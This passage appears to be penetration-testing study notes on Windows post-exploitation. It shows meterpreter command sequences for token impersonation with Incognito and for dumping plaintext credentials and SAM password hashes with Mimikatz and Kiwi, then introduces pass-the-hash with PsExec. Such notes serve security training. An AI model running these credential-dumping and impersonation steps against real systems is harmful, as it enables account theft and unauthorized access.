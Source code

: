 ## The Incognito module

- Incognito is a built-in meterpreter module that was originally a standalone application that allows you to impersonate user token after successful exploitation
- We can use the incognito module to display a list of available tokens that we can impersonate 

### DEMO

```shell
meterpreter: getuid
meterpreter: getprivs # See if I have privs to token impersonation attack
meterpreter: load incognito # Load the extension
meterpreter: list_tokens -u # List token available
meterpreter: impersonate_token "<token-user-name>" # Impersonate
meterpreter: migrate # Migrate to another process if needed
```


# Dumping Hashes with Mimikatz

- Mimikatz is a Windows post-exploitation tool written by Benjamin Delpy. It allows for the extraction of plaintext credentials from memory, password hashes from local SAM databases, and more
- The SAM (Security Account Manager) database, is a database file on Windows systems that stores users passwords and can be used to authenticate users both locally and remotely
- We can utilize the pre-built mimikatz executable, alternatively, if we have access to a meterpreter session on a Windows target, we can utilize the inbuilt meterpreter extension Kiwi
- Kiwi allows us to dynamically execute Mimikatz on the target system without touching the disk

### DEMO

```shell
# Need evelated privileges
meterpreter: load kiwi # Load the extension
meterpreter: help 
meterpreter: creds_all 
meterpreter: lsa_dump_sam # Dump SAM
meterpreter: lsa_dump_secrets

# If need to upload Mimikatz executable on target 
meterpreter: upload /usr/share/windows-resources/mimikatz/Win32
meterpreter: upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
meterpreter: shell # Spwn a shell
C:\Windows\system32>.\mimikatz.exe # Load the executable on the target 
mimikatz: sekurlsa::logonpasswords
mimikatz: lsadump::sam
```


# Pass-the-Hash with PSExec

- Pass-the hash is an exploitation technique that involves capturing or harvesting NTLM hashes or clear-text passwords and utilizing them to authenticate with the target legitimately
- We can use the PsExec module to legitimately authenticate with the target system via SMB
- This technique will allow us to obtain access to the target system via legitimate credentials as opposed to obtaining access via service exploitation
